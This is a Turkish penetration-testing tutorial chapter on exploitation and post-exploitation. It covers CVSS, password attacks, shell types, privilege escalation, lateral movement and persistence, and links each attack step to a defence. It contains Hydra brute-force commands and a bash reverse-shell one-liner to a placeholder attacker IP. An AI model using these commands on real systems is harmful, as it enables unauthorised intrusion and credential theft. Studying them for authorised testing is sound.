



# 💣 Sömürü ve Sömürü Sonrası

Keşif ve enumerasyon ([kesif-enumerasyon.md](kesif-enumerasyon.md)) bir yol bulunca, sıra **sömürüdedir** (exploitation): zafiyeti fiilen kullanıp erişim elde etme. Ardından **sömürü sonrası** (post-exploitation): erişimi derinleştirme (privesc), yayma (lateral movement) ve koruma (persistence). Bu dosya bu iki aşamayı, shell türlerini ve CVE/CVSS kullanımını kurar.

> ⚠️ Yalnızca izinli hedeflerde → [metodoloji-ve-rules-of-engagement.md](metodoloji-ve-rules-of-engagement.md). Otomasyon: [metasploit-rehberi.md](metasploit-rehberi.md).

---

## 1. Sürümden CVE'ye: zafiyet araştırması

Enumerasyon bir servis sürümü verdi (`-sV` → `vsftpd 3.0.3`). Sıra: bu sürümde bilinen zafiyet var mı?

- **CVE (Common Vulnerabilities and Exposures):** Bilinen her zafiyete verilen küresel kimlik (`CVE-2021-44228` = Log4Shell).
- **CVSS (Common Vulnerability Scoring System):** Zafiyetin ciddiyetini **0–10** arası puanlar; FIRST.org tarafından yönetilir ve güncel sürümü CVSS v4.0'dır (kaynak: [FIRST CVSS](https://www.first.org/cvss/)).

### CVSS ciddiyet ölçeği
| Puan | Seviye | Anlam |
|------|--------|-------|
| 0.1–3.9 | Düşük | Sınırlı etki |
| 4.0–6.9 | Orta | Dikkate değer |
| 7.0–8.9 | Yüksek | Öncelikli |
| 9.0–10.0 | **Kritik** | Acil (ör. uzaktan kod çalıştırma, kimlik doğrulamasız) |

CVSS bileşenleri (kabaca): saldırı vektörü (ağ/yerel), karmaşıklık, gerekli yetki, kullanıcı etkileşimi, ve CIA etkisi. Bu, [risk önceliklendirmesine](../08-grc-yonetisim-risk-uyum/risk-yonetimi.md) doğrudan girdi olur.

```bash
# Sürüme göre exploit ara (yerel veritabanı)
searchsploit vsftpd 3.0.3
searchsploit apache 2.4.49
# Ayrıca: exploit-db.com, NVD (nvd.nist.gov), satıcı bültenleri
```

> **Nüans — CVSS ≠ senin riskin:** CVSS 9.8 bir zafiyet, senin ortamında o servis internete kapalıysa düşük risk olabilir; CVSS 5.0 bir zafiyet kritik bir varlıktaysa yüksek risk olabilir. CVSS temel puandır; gerçek risk = CVSS + bağlam (varlık değeri, erişilebilirlik) → [risk-yonetimi.md](../08-grc-yonetisim-risk-uyum/risk-yonetimi.md).

Otomatik zafiyet tarayıcıları (Nessus/OpenVAS) bu "sürüm → CVE" adımını ölçekli yapar ama yanlış pozitif üretir; tam ayrımı ve authenticated/unauthenticated farkı → [zafiyet-tarama.md](zafiyet-tarama.md).

---

## 1.5. Parola saldırıları: online (Hydra) vs offline (John/hashcat)

Bir zafiyet sömürmek yerine, çoğu zaman en kısa yol **zayıf bir parolayı tahmin etmektir**. Burada kritik ve sık karıştırılan bir ayrım vardır: parolaya **online** mı yoksa **offline** mı saldırıyorsun?

| | Online brute-force / spraying | Offline hash cracking |
|---|-------------------------------|------------------------|
| Hedef | Canlı bir servis (SSH, RDP, HTTP form, FTP) | Ele geçirilmiş **hash** (`/etc/shadow`, SAM/NTLM) |
| Araç | **Hydra**, Medusa, Ncrack, Burp Intruder | **John the Ripper**, **hashcat** |
| Hız | **Yavaş** — ağ gecikmesi + servis limiti | **Çok hızlı** — GPU ile saniyede milyarlar |
| Tespit | **Gürültülü** — her deneme loglanır (Event 4625 → [../11-soc-mavi-takim/log-analizi.md](../11-soc-mavi-takim/log-analizi.md)), hesap kilitlenir | **Sessiz** — saldırganın kendi makinesinde, hedef görmez |
| Önkoşul | Sadece erişilebilir servis | Önce hash'i çalmak gerekir ([../02-linux-windows/windows-temelleri.md](../02-linux-windows/windows-temelleri.md)) |

**Hydra** (THC-Hydra), çok sayıda protokole karşı paralel online parola denemesi yapan standart araçtır (kaynak: [github.com/vanhauser-thc/thc-hydra](https://github.com/vanhauser-thc/thc-hydra)). Yalnızca izinli hedefte:
```bash
# SSH'a kullanıcı listesi + parola listesiyle online brute-force
hydra -L kullanicilar.txt -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.5

# Tek kullanıcı, belirli parola listesi
hydra -l admin -P parolalar.txt ftp://10.10.10.5

# HTTP POST form (giriş sayfası) — başarısızlık dizesiyle
hydra -l admin -P parolalar.txt 10.10.10.5 http-post-form \
  "/login:user=^USER^&pass=^PASS^:Invalid credentials"
```

> **Kesişim — neden bu ayrım kritik:** Online saldırı **gürültülüdür ve yavaştır**: her deneme hedefin loglarına düşer, hesap kilitleme (lockout) ve hız sınırı (rate limit) onu durdurur; bu yüzden savunmada bu kontroller ([../06-kimlik-erisim-yonetimi-iam/aaa-ve-mfa.md](../06-kimlik-erisim-yonetimi-iam/aaa-ve-mfa.md)) etkilidir. Bu yüzden saldırganlar mümkünse **önce hash'i çalıp offline kırmayı** tercih eder: offline saldırı hedefin göremediği, sınırsız hızda bir işlemdir — savunmanın kilitleme/rate-limit kontrolleri orada işe yaramaz, tek savunma **yavaş KDF + salt**'tır ([../05-kriptografi/temel-kavramlar.md](../05-kriptografi/temel-kavramlar.md)). Offline kırmanın elle pratiği [../05-kriptografi/pratik-lab/hash_kirma_john_hashcat.md](../05-kriptografi/pratik-lab/hash_kirma_john_hashcat.md)'de; bu yüzden **NTLM hash'i çalıp offline kırmak** (ör. [../12-sosyal-muhendislik-phishing/phishing-analizi.md](../12-sosyal-muhendislik-phishing/phishing-analizi.md)'deki Moniker Link/CVE-2024-21413 zinciri) online brute-force'tan çok daha etkili ve sessizdir.

Ayrıca online tarafta **password spraying** nüansı vardır: bir kullanıcıya çok parola denemek yerine (kilitleme tetikler), **çok kullanıcıya tek yaygın parola** (`Sonbahar2025!`) denemek — kilitleme eşiğinin altında kalıp radar altından geçer.

---

## 2. Shell türleri: bind vs reverse

Sömürünün hedefi genelde bir **shell** ([linux-temelleri.md](../02-linux-windows/linux-temelleri.md)) elde etmektir — hedef sistemde komut çalıştırma yeteneği. İki temel türü vardır:



| | Bind shell | Reverse shell |
|---|-----------|---------------|
| Kim dinler | Hedef bir port açar | **Saldırgan** bir port açar |
| Kim bağlanır | Saldırgan hedefe | **Hedef** saldırgana |
| Firewall | Hedefin gelen (inbound) portu açık olmalı | **Giden (outbound)** bağlantı → firewall'u atlatır |
| Yaygınlık | Daha az | **Çok daha yaygın** |

> **Neden reverse shell baskın:** Çoğu firewall gelen bağlantıları sıkı filtreler ama **giden** bağlantılara izin verir (kullanıcıların internete çıkması gerekir). Reverse shell hedefin *dışarı* bağlanmasını sağladığı için bu asimetriyi kullanır ([routing-nat-vpn.md](../01-ag-networking/routing-nat-vpn.md), [tcp-ip-protokoller.md](../01-ag-networking/tcp-ip-protokoller.md)).

```bash
# Saldırgan tarafı: dinleyici aç (netcat)
nc -lvnp 4444

# Hedef tarafı (sömürü ile çalıştırılan reverse shell — bash örneği)
bash -i >& /dev/tcp/SALDIRGAN_IP/4444 0>&1
```

**Saldırgan tarafındaki dinleyiciye reverse shell düştüğünde görünen çıktı:**
```text
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.5] 45112
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
`www-data` = web sunucusunun düşük yetkili hesabı; bu tipik bir "ilk ayak izi"dir (initial foothold). Sıradaki adım privesc'tir (aşağıda) — çünkü `www-data` ile sistemin çoğuna erişemezsin.

---

## 3. Sömürü sonrası aşama 1: Ayrıcalık yükseltme (privesc)

İlk shell genelde **düşük yetkilidir** (`www-data`, sınırlı kullanıcı). Hedef: **root/SYSTEM'e yükselmek** ([kullanici-cekirdek-modu.md](../03-isletim-sistemi-ici/kullanici-cekirdek-modu.md) dikey privesc). Aşağıda enumerasyonun ilk komutları verilir; **her privesc vektörünün neden çalıştığı ve nasıl sömürüldüğü** (SUID/GTFOBins, sudo, cron, capabilities, Windows servis/token/Potato) ise ayrı bir derin dosyada işlenir → **detay: [privilege-escalation.md](privilege-escalation.md)**.

### Linux privesc enumerasyonu (ilk komutlar)
```bash
id ; whoami                         # kimim, hangi gruplar
sudo -l                             # sudo ile ne çalıştırabilirim (yanlış yapılandırma?)
find / -perm -4000 -type f 2>/dev/null   # SUID binary'ler (→ linux-temelleri.md)
cat /etc/crontab                    # zamanlanmış görevler (yazılabilir script?)
getcap -r / 2>/dev/null             # capabilities
uname -a                            # çekirdek sürümü (kernel exploit?)
# Otomasyon: linpeas.sh (kapsamlı enumerasyon script'i)
```

### Windows privesc enumerasyonu
```
whoami /priv                        → ayrıcalıklar (SeImpersonate vb. → windows-temelleri.md)
systeminfo                          → yamalar (eksik = exploit)
sc qc <servis>                      → yazılabilir/tırnaksız servis yolu
# Otomasyon: winPEAS, PowerUp
```

> **Kesişim:** Privesc, [en az ayrıcalık](../00-baslangic/terminoloji-sozlugu.md) ihlallerinin sömürüsüdür. Her bulunan yol (gevşek sudo, SUID, yazılabilir servis) savunma tarafında bir sertleştirme maddesidir → [linux-hardening-checklist.md](../02-linux-windows/pratik-lab/linux-hardening-checklist.md).

---

## 4. Sömürü sonrası aşama 2: Yanal hareket (lateral movement)

Bir makineyi ele geçirdin — ama hedef genelde ağın derinindeki bir varlıktır (DC, veritabanı). **Yanal hareket**, ele geçirilen makineden ağdaki diğerlerine geçmektir.



- **Kimlik bilgisi toplama:** LSASS bellek dökümü (Mimikatz), `/etc/shadow`, SSH anahtarları, kaydedilmiş parolalar.
- **Pass-the-Hash (PtH):** Parolayı değil, **parola hash'ini** kullanarak kimlik doğrulama (Windows NTLM) — parolayı bilmeden kimlik taklidi.
- **Kerberoasting:** AD servis hesaplarının biletlerini alıp çevrimdışı kırma ([windows-temelleri.md](../02-linux-windows/windows-temelleri.md) Kerberos). Kurumsal ortamda yanal hareket büyük ölçüde AD saldırısıdır (Kerberoasting, AS-REP, PtH/PtT, DCSync, Golden Ticket) → **detay: [active-directory-saldirilari.md](active-directory-saldirilari.md)**.
- **Pivoting:** Ele geçirilen makineyi bir "sıçrama tahtası" yapıp iç ağa erişim ([routing-nat-vpn.md](../01-ag-networking/routing-nat-vpn.md) segmentasyonunu test etme).

> **Kesişim — segmentasyon burada test edilir:** İyi ağ segmentasyonu ([routing-nat-vpn.md](../01-ag-networking/routing-nat-vpn.md)) ve [zero-trust](../06-kimlik-erisim-yonetimi-iam/zero-trust.md) mikro-segmentasyonu, yanal hareketi durdurur. Pentester "misafir ağından DC'ye ulaşabiliyor muyum?" diye tam bunu ölçer.

---

## 5. Sömürü sonrası aşama 3: Kalıcılık (persistence)

Erişimin yeniden başlatma/oturum kapanma sonrası da sürmesi için **kalıcılık** kurulur:
- **Linux:** cron işi, systemd servisi, SSH authorized_keys, `.bashrc` ([linux-temelleri.md](../02-linux-windows/linux-temelleri.md)).
- **Windows:** Registry Run anahtarları, Scheduled Task, yeni servis, WMI aboneliği ([windows-temelleri.md](../02-linux-windows/windows-temelleri.md)).

> **Kesişim:** Bu kalıcılık noktaları tam olarak SOC'un ([log-analizi.md](../11-soc-mavi-takim/log-analizi.md)) ve EDR'in izlediği yerlerdir. Saldırgan kalıcılık kurar, savunmacı onu avlar — [MITRE ATT&CK Persistence taktiği](../07-tehdit-modelleme-cerceveler/mitre-attck.md).

> **Pentest'te etik:** Kalıcılık ve izler **rapora kaydedilir ve test sonrası temizlenir** ([metodoloji-ve-rules-of-engagement.md](metodoloji-ve-rules-of-engagement.md)) — gerçek saldırgandan farkımız budur.

---

## 6. Tüm zincir: bir bakışta



---

## 7. Saldırı–savunma kesişimi (özet)

- **Her saldırı adımı bir savunma dersidir:** Reverse shell → giden trafik izleme; privesc → sertleştirme; lateral movement → segmentasyon; persistence → EDR/log izleme. Saldırıyı bilen, savunmayı doğru yere kurar.
- **CVSS önceliklendirir, bağlam karar verir:** Yama yönetimi CVSS + varlık değeri ile önceliklenir → [risk-yonetimi.md](../08-grc-yonetisim-risk-uyum/risk-yonetimi.md).
- **Kill chain'i kırmak:** Savunmacının hedefi, bu zincirin herhangi bir halkasını kesmek ([cyber-kill-chain.md](../07-tehdit-modelleme-cerceveler/cyber-kill-chain.md)) — ne kadar erken, o kadar iyi.

> **Sonraki:** [metasploit-rehberi.md](metasploit-rehberi.md).
